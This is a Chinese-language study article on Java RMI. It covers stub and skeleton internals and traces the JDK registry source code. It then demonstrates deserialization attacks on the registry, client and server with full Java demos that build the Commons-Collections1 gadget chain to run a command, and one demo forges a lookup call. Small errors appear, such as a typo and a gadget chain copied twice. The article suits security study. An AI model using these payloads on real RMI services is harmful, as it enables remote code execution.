




# Java安全学习-RMI学习

Author: H3rmesk1t

Data: 2022.01.19

# RMI简介
RMI: Remote Method Invocation, 顾名思义是一种调用远程位置的对象来执行方法的思想, 是一种跨`JVM`实现方法调用的技术

早在`C语言`中的`RPC`(Remote Procedure Calls)就有该思想的体现, 但是`RPC`是打包和传送数据结构. 在`Java`中, 通常传递一个完整的对象, 其既包含了数据, 又包含了操作数据的方法, `Java`中如果想完整的在网络中向远程位置传输一个对象, 通常使用的方法是`Java`原生反序列化, 并且可以结合动态类加载和安全管理器来安全的传输一个`Java`类. 而具体的实现思想就是获取远程主机上对象的引用, 调用这个引用对象, 但实际方法的执行在远程位置上.

在`RMI`中引入了两个概念来解决网络通信的复杂性, 分别是`Stubs`(客户端存根)、`Skeletons`(服务端骨架), 当客户端试图调用一个在远端的对象时, 实际调用的是客户端本地的一个代理类(Stub), 而在调用远端的目标类之前, 也会进过一个对应的远端代理类(Skeletons), 它从客户端本地的代理类中接受远程方法并传递给真实的目标类. 



在使用`RMI`时, 先要定义一个能够远程调用的接口, 该接口必须扩展`java.rmi.Remote`接口, 用来远程调用的对象作为该接口的实例, 同时这个接口中的所有方法都必须声明抛出`java.rmi.RemoteException`异常. 示例代码如下:

```java
public interface RemoteInterface extends Remote {
    
    public String demoCaseBegin() throws RemoteException;

    public String demoCaseBegin(Object demo) throws RemoteException;

    public String demoCaseOver() throws RemoteException;
}
```

其次来创建这个远程接口的实现类, 这个类中是真正的执行逻辑代码, 并且通常会扩展`java.rmi.server.UnicastRemoteObject`类, 扩展此类后`RMI`会自动将这个类`export`给远程想要调用它的`Client`端, 同时还提供了一些基础的`equals/hashcode/toString`方法. 这里必须为这个实现类提供一个构造函数并且抛出`RemoteException`.

在`export`时会随机绑定一个端口, 监听客户端的请求, 所以即使不注册, 直接请求这个端口也可以通信.

如果不想让远程对象成为`UnicastRemoteObject`的子类, 后面就需要主动的使用其静态方法`exportObject`来手动`export`对象. 示例代码如下:

```java
public class RemoteObject extends UnicastRemoteObject implements RemoteInterface {
    
    protected RemoteObject() throws RemoteException {
    }

    @Override
    public String demoCaseBegin() throws RemoteException {
        return "Hello World!";
    }

    @Override
    public String demoCaseBegin(Object demo) throws RemoteException {
        return demo.getClass().getName();
    }

    @Override
    public String demoCaseOver() throws RemoteException {
        return "Bye!";
    }
}
```

当远程调用对象被创建好后, 利用`RMI`设计的`Registry`的思想, 使用注册表来查找一个远端对象的引用. 通俗来讲, 这就像是一个电话本, 当我们需要在某个人那获取信息时(Remote Method Invocation), 先在电话本上(Registry)通过这个人的名称(Name)来找到这个人的电话号码(Reference), 并通过这个号码找到这个人(Remote Object). 这种`电话本`思想基于`java.rmi.registry.Registry`和`java.rmi.Naming`来实现的.

`java.rmi.Naming`是一个`final`类, 提供了在远程对象注册表(Registry)中存储和获取远程对象引用的方法, 这个类提供的每个方法都有一个`URL`格式(//host:port/name)的参数
 - host: 注册表所在的主机
 - port: 注册表接受调用的端口号, 默认为1099
 - name: 注册`Remote Object`的引用的名称, 不能是注册表中的一些关键词


`Naming`是一个用来对注册表进行操作的类, 在`Naming`中提供了`lookup`(查询)、`bind`(绑定)、`rebind`(重新绑定)、`unbind`(解除绑定)、`list`(列表)等方法, 用来对注册表进行相应的操作. 这些方法的具体实现方法为调用`LocateRegistry.getRegistry`方法来获取`Registry`接口的实现类, 并调用其相关方法进行实现.

`java.rmi.registry.Registry`接口在`RMI`下有两个实现类, 分别是`RegistryImpl`和`RegistryImpl_Stub`.

在实际应用中, 我们通常使用`LocateRegistry#createRegistry()`方法来创建注册中心, 示例代码如下:

```java
public class Registry {

    public static void main(String args[]) {
        try {
            LocateRegistry.createRegistry(1099);
            System.out.println("Server Start!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后将我们需要调用的类进行绑定, 示例代码如下:

```java
public class RemoteServer {

    public static void main(String args[]) throws RemoteException, MalformedURLException, AlreadyBoundException, InterruptedException {
        // 创建远程对象
        RemoteInterface remoteObject = new RemoteObject();
        // 绑定类
        Naming.bind("rmi://127.0.0.1:1099/Demo", remoteObject);
    }
}
```

接着在客户端进行调用.

```java
public class RMIClient {

    public static void main(String args[]) throws RemoteException, NotBoundException {
        // sum.rmi.registry.RegistryImpl_Stub
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);

        System.out.println(Arrays.toString(registry.list()));

        // lookup && call
        RemoteInterface stub = (RemoteInterface) registry.lookup("Demo");
        System.out.println(stub.demoCaseBegin());
        System.out.println(stub,demoCaseOver());
    }
}
```

需要注意的是`RemoteInterface`接口在`Client`/`Server`/`Registry`均应该存在, 只不过`Server`和`Registry`通常在同一端上.


在上图中简单实现了一次远程调用通信, 这里再明确几个特性:
 - 动态加载类: 如果客户端在调用时传递了一个可序列化对象, 但是这个对象在服务端并不存在时, 服务端会抛出`ClassNotFound`的异常, 但是`RMI`支持动态类加载, 因此当设置了`java.rmi.server.codebase`时, 会尝试从其中的地址获取`.class`并加载以及反序列化. 可使用`System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:9999/");`进行设置, 或使用启动参数`-Djava.rmi.server.codebase="http://127.0.0.1:9999/"`进行指定.
 - 安全策略设置: 由于是通过网络加载外部类并执行方法, 所以必须要有一个安全管理器来进行管理; 如果没有设置安全管理, 则`RMI`不会动态加载任何类. 同样可以使用`-Djava.security.policy=rmi.policy`或`System.setProperty("java.security.policy", RemoteServer.class.getClassLoader().getResource("rmi.policy").toString());` 来进行设置.

# 源码分析
## 本地获取注册中心
获取注册中心有两种方式, 第一种是创建时获取, 即`LocateRegistry#createRegistry`, 在`createRegistry`中有两个方法


第一种方法只需要传递注册中心监测的端口——`port`, 另一种方法除了传递注册中心监测的端口外, 还需要传递`RMIClientSocketFactory`和`RMIServerSocketFactory`对象, 两个方法最终获取到的都是`RegistryImpl`对象. 由于两种方法的差别并不大, 这里只分析第一种方法.

跟进`RegistryImpl`, 其先判断`var1`, 即传入的`port`值, 是否为默认端口`1099`, 并检查安全策略是否开启. 在`LiveRef`中封装了一些信息, 包括`IP`地址、需要监听的端口号等. 接着调用`setup`方法将`UnicastServerRef`对象传递进去


在`new UnicastServerRef`的过程中把`LiveRef`对象传递进去, 并进行一些数据封装的操作


跟入`UnicastServerRef#exportObject`, 先获取传入对象`var1`的类, 接着调用`Util#createProxy`方法, 传入`class sun.rmi.registry.RegistryImpl`、`Ref`以及`forceStubUse`的值(是否存在以`_Stub`结尾的类, 即`remoteClass + "_Stub"`, `forceStubUse`表示当不存在时是否抛出异常, 这里为`UnicastServerRef`方法中设置的值`false`).


接着跟入`createStub`方法, 这里返回了`RegistryImpl_Stub`对象


接着回到前面调用`setSkeleton`方法, 这里和获取`RegistryImpl_Stub`对象一样的方法来获取`RegistryImpl_Skel`对象




在创建完`Stub`和`Skel`对象时, 会实例化一个`Target`对象, 在`var6`中初始化了一些信息, 把上面获取到的`Stub`、`Skel`对象以及一些`IP`端口信息封装在一个对象里边, 之后会调用`LiveRef#exportObject`, 并且将`Target`对象传进去, 经过多个`exportObject`后到`TCPTransport#exportObject`后, 会进行一系列的网络层操作(监听端口等).


跟入`TCPTransport#listen`方法, 在调用`TCPEndpoint#newServerSocket`时, 会开启端口监听.


接着会设置`AcceptLoop`线程并触发其`run`方法.


跟入`TCPTransport#executeAcceptLoop`, 这里会获取到请求的一些相关信息, 比如`Host`之类, 之后在下边会创建一个线程调用`ConnectionHandler`来处理请求.


跟入`ConnectionHandler#run`, 这里的`var2`就是上边传进来的`ServerSocket`对象, 接着跟入`run0`方法.


跟入`ConnectionHandler#run0`, 在上边会获取一些客户端发来的信息, 下边会调用`TCPTransport#handleMessages`来处理请求.


跟入`TCPTransport#handleMessages`, 这里只需要关注`80`, 因为客户端发送数据的时候这里发的是`80`, 在上面的代码中先是创建了一个`StreamRemoteCall`对象, 并传入`var1`(当前连接的`Connection`对象).


跟入`TCPTransport#serviceCall`, 在上边获取了传来的一些信息, 例如`ObjID`, 接着会获取`Target`对象, 在下边会调用`UnicastServerRef#dispatch`来处理请求.



跟入`UnicastServerRef#dispatch`方法, 这里传递了两个参数, `Remote`对象和当前连接的`StreamRemoteCall`对象, 前面也是读一些数据, 接着会调用到`UnicastServerRef#oldDispatch`.


跟入`UnicastServerRef#oldDispatch`, 在`try-catch`结尾中调用了`this.skel.dispatch`方法, 此时的`this.skel`为刚刚创建的`RegistryImpl_Skel`对象.


跟入`this.skel.dispatch`方法, 进入真正处理请求的核心, 存在如下对应关系:
 - 0 -> bind
 - 1 -> list
 - 2 -> lookup
 - 3 -> rebind
 - 4 -> unbind

在这里会对每个调用的方法进行处理, 例如调用`lookup`方法, 会先`readObject`反序列化传进来的序列化对象, 之后再调用`var6.lookup`来注册服务, 此时的`var6`为`RegistryImpl`对象, 这个对象其实就是调用`createRegistry`获得的, 无论是客户端还是服务端, 最终其调用注册中心的方法都是通过对创建的`RegistryImpl`对象进行调用.


## 远程获取注册中心
获取注册中心的另一种方式则是远程获取, 即`LocateRegistry#getRegistry`, 通过`getRegistry`方法获得的对象是`RegistryImpl_Stub`对象, 与通过`createRegistry`获得的对象不同, `createRegistry`获得的伪`RegistryImpl`对象.

前面的分析步骤和`LocateRegistry#createRegistry`类似, 这里分析在真正处理请求核心时的方法, 以`bind`为例, 先来看看通过`createRegistry`获得的注册中心调用`bind`的方法. 首先会调用`checkAccess`方法来进行判断, 会对当前的权限、来源`IP`等进行判断, 这里需要注意的一点是, 高版本`JDK`中不允许除了`localhost`之外的地址注册服务, 这里也会对该情况进行判断. 然后检查这个键是否已经被绑定过, 如果已经被绑定过, 则抛出一个`AlreadyBoundException`的错误; 反之则将键和对象都`put`到`Hashtable`中.


接着看看`LocateRegistry#getRegistry`远程调用`bind`方法, 先通过`getRegistry`的方式远程获取注册中心, 此时获得到的对象为`RegistryImpl_Stub`, 接着跟入其`bind`方法, 先调用`UnicastRef#newCall`方法.


跟进`UnicastRef#newCall`, 这里的传入的`var3`是之前五种方法对于的数字, `0`即为`bind`方法, 在`newConnection`方法中, 会写入一些已经约定好的数据, 比如`IP`、端口等, 接着调用`StreamRemoteCall`


跟入`StreamRemoteCall`, 这里在最开始写入了`80`, 这也解释了为什么在`TCPTransport#handleMessages`中只分析`80`的原因了, 接着还会写一些数据, 例如要调用的方法所对应的`num`和`ObjID`之类的. 


当调用完成后, 回到`bind`方法, 此时会写入两个内容
 - 序列化的`var1`: 待绑定远程对象对应的名称
 - 序列化的`var2`: 待绑定的远程对象

接着调用`invoke`方法来将请求发出去, 注册中心在收到这条请求后会调用`Skel#dispatch`来处理.


跟进`Skel#dispatch`, 注册中心首先会`read`两个`Object`, 第一个即刚刚`write`进去的字符串对象, 第二个则是远程对象, 接着调用`var6.bind`来绑定服务, 即`RegistryImpl`对象.


## Client和Server的通信
需要注意, 客户端与服务端的通信只发生在调用远程方法时, 此时是客户端的远程代理对象与的`Skel`进行通信.

在客户端获取的是注册中心封装好的代理对象, 所以默认会调用代理对象的`invoke`方法, 在这里会判断调用的方法是所有对象都有的, 还是只有远程对象才有的. 如果是前者, 则进入`invokeObjectMethod`中, 后者则进入`invokeRemoteMethod`中.


跟入`RemoteObjectInvocationHandle#invokeRemoteMethod`中, 这里会调用`ref.invoke`, 并把`proxy`、`method`、`args`以及`method`的`hash`传过去.


跟入`UnicastRef#invoke`, 和之前一样, 在`newConnection`会发送一些约定好了的数据, 接着调用`marshaValue`方法.


跟入`marshaValue`方法, 在`marshaValue`会将调用的方法要传递的参数序列化写到连接中, 如果传递的参数是对象, 就会写入序列化对象到这里, 接着回到`UnicastRef#invoke`中调用`StreamRemoteCall#executeCall`.


跟进`StreamRemoteCall#executeCall`, 接着会调用`releaseOutputStream`方法, 在`this.out.flush`时, 会把之前写进去的数据发出去, 服务端会返回执行结果.




在调用完`StreamRemoteCall#executeCall`后, 会调用`unmarsharValue`方法把数据取出来.


当`Client`在与`Server`通信时, `Server`实际处理请求的位置在`UnicastServerRef#dispatch`, 这里会调用`unmarshaValue`方法, 对请求传来的参数进行处理, 这里会判断参数的数据类型, 如果是`Object`的话, 则会反序列化. 因此如果能够找到`Server`注册的远程对象中某个方法传递的参数类型是`Object`, 在服务端这里会被反序列化, 此时即可实现`RCE`(前提是具有`gadget`), 最后通过调用`invoke`来调用远程对象的方法.


## 总结
用一张图来说明进行一个完整的服务注册、发现、调用流程, 都经历了哪些步骤.


`RMI`底层通讯采用了`Stub`(运行在客户端)和`Skeleton`(运行在服务端)机制, `RMI`调用远程方法的大致如下:
 - `RMI`客户端在调用远程方法时会先创建`Stub`(sun.rmi.registry.RegistryImpl_Stub)
 - `Stub`会将`Remote`对象传递给远程引用层(java.rmi.server.RemoteRef), 并创建`java.rmi.server.RemoteCall`(远程调用)对象
 - `RemoteCall`序列化`RMI`服务名称、`Remote`对象
 - `RMI`客户端的远程引用层传输`RemoteCall`序列化后的请求信息通过`Socket`连接的方式传输到`RMI`服务端的远程引用层
 - `RMI`服务端的远程引用层(sun.rmi.server.UnicastServerRef)收到请求会请求传递给`Skeleton`(sun.rmi.registry.RegistryImpl_Skel#dispatch)
 - `Skeleton`调用`RemoteCall`反序列化`RMI`客户端传过来的序列化
 - `Skeleton`处理客户端请求: `bind`、`list`、`lookup`、`rebind`、`unbind`, 如果是`lookup`则查找`RMI`服务名绑定的接口对象, 序列化该对象并通过`RemoteCall`传输到客户端
 - `RMI`客户端反序列化服务端结果, 获取远程对象的引用
 - `RMI`客户端调用远程方法, `RMI`服务端反射调用`RMI`服务实现类的对应方法并序列化执行结果返回给客户端
 - `RMI`客户端反序列化`RMI`远程方法调用结果

# RMI反序列化攻击方式
在上文分析中不难看出`RMI`通讯过程是基于序列化的, 那么自然就会有反序列化, 所以只需要根据反序列化的点去选择攻击方式即可.

## 攻击注册中心
当注册中心对`bind`、`list`、`lookup`、`rebind`、`unbind`这五种方法的处理存在`readObject`, 则可以利用.

### list
当调用`list`时, 不存在`readObject`, 因此无法攻击注册中心.
```java
case 1:
    var2.releaseInputStream();
    String[] var97 = var6.list();

    try {
        ObjectOutput var98 = var2.getResultStream(true);
        var98.writeObject(var97);
        break;
    } catch (IOException var92) {
        throw new MarshalException("error marshalling return", var92);
    }
```


### bind & rebind
当调用`bind`时, 会用`readObject`读出参数名以及远程对象, 此时则可以利用该方法来攻击注册中心.
```java
case 0:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var94) {
        throw new UnmarshalException("error unmarshalling arguments", var94);
    } catch (ClassNotFoundException var95) {
        throw new UnmarshalException("error unmarshalling arguments", var95);
    } finally {
        var2.releaseInputStream();
    }

    var6.bind(var7, var8);
```

当调用`rebind`时, 也会用`readObject`读出参数名和远程对象, 因此和`bind`一样, 可以利用该方法来攻击注册中心.
```java
case 3:
    try {
        var11 = var2.getInputStream();
        var7 = (String)var11.readObject();
        var8 = (Remote)var11.readObject();
    } catch (IOException var85) {
        throw new UnmarshalException("error unmarshalling arguments", var85);
    } catch (ClassNotFoundException var86) {
        throw new UnmarshalException("error unmarshalling arguments", var86);
    } finally {
        var2.releaseInputStream();
    }

    var6.rebind(var7, var8);
```

`Demo`代码
```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo1 {
    public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLException, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, AlreadyBoundException {

        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // 将代理对象转换为了Remote对象
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);
        registry.bind("demoCaseBegin", r);
    }
}
```


### unbind & lookup
`unbind`会调用`readObject`来读取传递过来的参数, 所以是可以利用的.
```java
case 4:
    try {
        var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var81) {
        throw new UnmarshalException("error unmarshalling arguments", var81);
    } catch (ClassNotFoundException var82) {
        throw new UnmarshalException("error unmarshalling arguments", var82);
    } finally {
        var2.releaseInputStream();
    }

    var6.unbind(var7);
```

`lookup`也会调用`readObject`来读取传递过来的参数, 所以也是可以利用的.
```java
case 2:
    try {
        var10 = var2.getInputStream();
        var7 = (String)var10.readObject();
    } catch (IOException var89) {
        throw new UnmarshalException("error unmarshalling arguments", var89);
    } catch (ClassNotFoundException var90) {
        throw new UnmarshalException("error unmarshalling arguments", var90);
    } finally {
        var2.releaseInputStream();
    }

    var8 = var6.lookup(var7);
```

`Demo`代码. 当调用`unbind`或者`lookup`时, 只允许传递字符串, 所以没法传递恶意对象, 这个问题有几种办法来解决:
 - 伪造连接请求
 - `rasp hook`请求代码, 修改发送数据

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
import java.io.ObjectOutput;
import java.lang.reflect.Field;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo2 {
    public static void main(String[] args) throws Exception {

        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // 将代理对象转换为了Remote对象
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);


        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}
```


## 攻击客户端
### 注册中心攻击客户端
在通信过程中, `RMI`与注册中心以及服务端进行了交互, 我们可以对这两者做手脚, 从而达到攻击客户端的目的. 对于注册中心来说, 还是从之前的五个方法触发:
 - bind
 - unbind
 - rebind
 - list
 - lookup

上述的每个方法中, 除了`unbind`和`rebind`, 其他的都会返回数据给客户端, 此时的数据是序列化的数据, 所以客户端自然也会反序列化, 那么只需要伪造注册中心的返回数据, 就可以达到攻击客户端的效果.

该攻击方式可以利用`ysoserial`的`JRMPListener`攻击模块

### 服务端攻击客户端
在`RMI`中, 远程调用方法传递回来的不一定是一个基础数据类型(String、int), 也有可能是对象. 当服务端返回给客户端一个对象时, 客户端就要对应的进行反序列化. 所以我们需要伪造一个服务端, 当客户端调用某个远程方法时, 返回的参数是我们构造好的恶意对象.

`Demo`代码. 

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo3 {
    public static void main(String[] args) throws Exception {

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 4321);

        RemoteInterface stub = (RemoteInterface) registry.lookup("demoCaseBegin");
        System.out.println(stub.demoCaseBegin(openCalculatorObject()));
    }

    public static Object openCalculatorObject() throws Exception {
        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        return (Object) invocationHandler;
    }
}
```

### 远程加载对象
当服务端的某个方法返回的对象是客户端没有的时, 客户端可以指定一个`URL`, 此时会通过`URL`来实例化对象. [参考文章](https://paper.seebug.org/1091/#serverrmi-server)

## 攻击服务端
参照上面攻击客户端的攻击方式.

## 带回显攻击
带回显攻击指的是攻击注册中心时, 注册中心遇到异常会直接把异常发回来, 返回给客户端. 之前攻击注册中心时可以通过`bind`、`lookup`、`unbind`、`rebind`等方式去攻击注册中心, 当尝试攻击时, 命令确实执行了, 不过注册中心的错误也会传递到客户端中.

[参考文章](https://xz.aliyun.com/t/2223)

# 反序列化Gadgets
## UnicastRemoteObject
反序列化调用链为:

```java
UnicastRemoteObject.readObject()
    UnicastRemoteObject.reexport()
        UnicastRemoteObject.exportObject()
            UnicastServerRef.exportObject()
                LiveRef.exportObject()
                    TCPEndpoint.exportObject()
                        TCPTransport.exportObject()
                            TCPTransport.listen()
```
上述部分对应的就是`ysoserial.payloads.JRMPListener`这个`gadget`, 可以结合`ysoserial.exploit.JRMPListener`来使用. 

## UnicastRef
反序列化调用链为:

```java
UnicastRemoteObject.readObject()
    UnicastRemoteObject.reexport()
        UnicastRemoteObject.exportObject()
            UnicastServerRef.exportObject()
                LiveRef.exportObject()
                    TCPEndpoint.exportObject()
                        TCPTransport.exportObject()
                            TCPTransport.listen()
```
恶意服务端可以结合`ysoserial.exploit.JRMPListener`来使用.

## RemoteObject
`RemoteObject`的`readObject`方法会先反序列化成员变量`RemoteRef ref`, 最后调用其`readExternal`方法, 可以用来触发上一条`UnicastRef`链.

```java
public class RemoteObject1 {

	public static void main(String[] args) throws Exception {

		String host = "127.0.0.1";
		int    port = 12233;

		ObjID       id  = new ObjID(new Random().nextInt()); // RMI registry
		TCPEndpoint te  = new TCPEndpoint(host, port);
		UnicastRef  ref = new UnicastRef(new LiveRef(id, te, false));

		RMIServerImpl_Stub stub = new RMIServerImpl_Stub(ref);

		//  ysoserial 中使用 RemoteObjectInvocationHandler
//		RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
//		Registry proxy = (Registry) Proxy.newProxyInstance(RemoteObject1.class.getClassLoader(), new Class[]{Registry.class}, obj);

		SerializeUtil.writeObjectToFile(stub);
		SerializeUtil.readFileObject();
	}
}
```

